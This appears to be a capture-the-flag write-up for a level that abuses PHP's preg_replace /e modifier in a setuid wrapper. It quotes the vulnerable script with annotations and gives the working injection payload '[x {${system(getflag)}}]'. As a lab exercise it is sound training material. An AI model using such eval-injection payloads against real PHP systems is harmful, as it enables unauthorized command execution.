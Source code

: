 `ls -l` </br>
gives </br>
`-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06`    </br>
`-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php`</br>

`./level06`</br>
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4</br>
level06 seems to be executing level06.php

`./level06.php` </br>
PHP Notice:  Undefined offset: 1 in /home/user/level06/level06.php on line 5</br>
PHP Notice:  Undefined offset: 2 in /home/user/level06/level06.php on line 5</br>
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4</br>


`./level06 hello` </br>
PHP Warning:  file_get_contents(hello): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4</br>
We seems to need a file as argument.


```php
#!/usr/bin/php
<?php
    function y($m) { 
        $m = preg_replace("/\./", " x ", $m); 
        $m = preg_replace("/@/", " y", $m); 
        return $m; 
    }
    // manipule argv 1
    function x($y, $z) {
        // read file y and put content into string a
        $a = file_get_contents($y); 
        // first / indicates start of regular expression
        // second / indicates end of it, and start of expression flags
        // expression flag here: e , known for security problem
        // The e modifier is a PHP-specific modifier that triggers PHP 
        // to run the resulting string as PHP code.
        // the '/e' modifier actually allows us to evaluate the second argument as a PHP expression.
        // calls the function eval()
        // programms call function y() here thanks to modifier e
        // () Capturing group. Groups multiply tokens together and creates a capture group
        // for extracting a substring or using a backreference
        // \1 - it means the first capturing group in the matched expression. 
        // \n would be the nth capturing group. (Note that \0 would be whole match). 
        // In many engines, the upperlimit for n is 9, but some support up to 99 as well.
        // When used in regex like (a|b)\1, it means that after a or b, the next character 
        // should be the first captured group, which is a or b so the regex here would 
        // match aa or bb.
        // \[ matches a [ character
        // x matches a x character and a space one
        // . matches any character except line breaks
        // * matches 0 or more of the preceding token
        // \] matches a ] character

        // \[x (.*)\] first group --> [x ] or [x coucou] matches
        // .* second group, given as parameter to function y --> [x @.coucou] changes @ and . in y function
        // [x@ @.coucou] don't match first group, so it doesn't work
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        // replace [ by (
        $a = preg_replace("/\[/", "(", $a);
        // replace ] by )
        $a = preg_replace("/\]/", ")", $a);
        return $a; 
    }
    // y = argv 1
    // z = argv 2
    $r = x($argv[1], $argv[2]); 
    print $r;
?>
```

https://www.yeahhub.com/code-execution-preg_replace-php-function-exploitation/ </br>
https://www.php.net/manual/en/language.types.string.php </br>

So we need to find a syntax matching the regex, so the second group (.* which stands for one or more of any character except line breaks) can be sent to function y, in which the string will be transformed (or not) then returned, so as to be executed by the e modifier.

Struggled **a lot** to find good syntax, tried: </br>
`echo '[x $(getflag)]' > /tmp/flag && ./level06 /tmp/flag` </br>
`echo '[x ${system(getflag)}]' > /tmp/flag && ./level06 /tmp/flag` </br>
and a lot of variants of it. 

To finally come accross the good syntax: `echo '[x {${system(getflag)}}]' > /tmp/flag && ./level06 /tmp/flag`

`echo "This is the value of the var named $name: {${$name}}";`
https://www.php.net/manual/fr/language.types.string.php#language.types.string.parsing.complex
https://www.voidsecurity.in/2012/12/exploit-exercise-php-pregreplace.html </br>
